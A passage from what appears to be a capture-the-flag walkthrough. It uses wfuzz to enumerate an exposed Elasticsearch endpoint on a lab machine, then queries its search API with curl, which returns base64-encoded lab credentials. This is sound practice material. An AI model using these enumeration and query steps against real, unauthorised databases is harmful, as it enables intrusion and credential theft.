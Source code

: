okaai I found that there is `_` before some parameters , lets fuzz using `_`  

Using command 
```Shell
root@X-Billy:~/Desktop# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404,400 http://10.10.10.115:9200/_FUZZ

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.115:9200/_FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                       
===================================================================

000000052:   200        0 L      1 W      103 Ch      "alias"                                       
000000053:   200        0 L      1 W      103 Ch      "aliases"                                     
000000054:   200        0 L      1 W      4470 Ch     "all"                                         
000000129:   405        0 L      12 W     102 Ch      "bulk"                                        
000000145:   200        28 L     28 W     493 Ch      "cat"                                         
000000213:   200        0 L      1 W      76 Ch       "count"                                       
000000576:   405        0 L      11 W     97 Ch       "open"                                        
000000715:   200        0 L      17 W     6456 Ch     "search"                                      
000000743:   200        0 L      1 W      854 Ch      "settings"                                    
000000790:   200        0 L      1 W      20986 Ch    "stats"                                       
000000823:   200        0 L      1 W      40327 Ch    "template"                                    

Total time: 23.53877
Processed Requests: 949
Filtered Requests: 938
Requests/sec.: 40.31644

```

I find parameter call search ... let's search about query `= "clave"`  

```Shell
root@X-Billy:~/Desktop# curl -X GET "http://10.10.10.115:9200/_search?q=clave"
{"took":5,"timed_out":false,"_shards":{"total":16,"successful":16,"skipped":0,"failed":0},"hits":{"total":2,"max_score":5.9335938,"hits":[{"_index":"quotes","_type":"quote","_id":"45","_score":5.9335938,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}},{"_index":"quotes","_type":"quote","_id":"111","_score":5.3459888,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}]}}
```
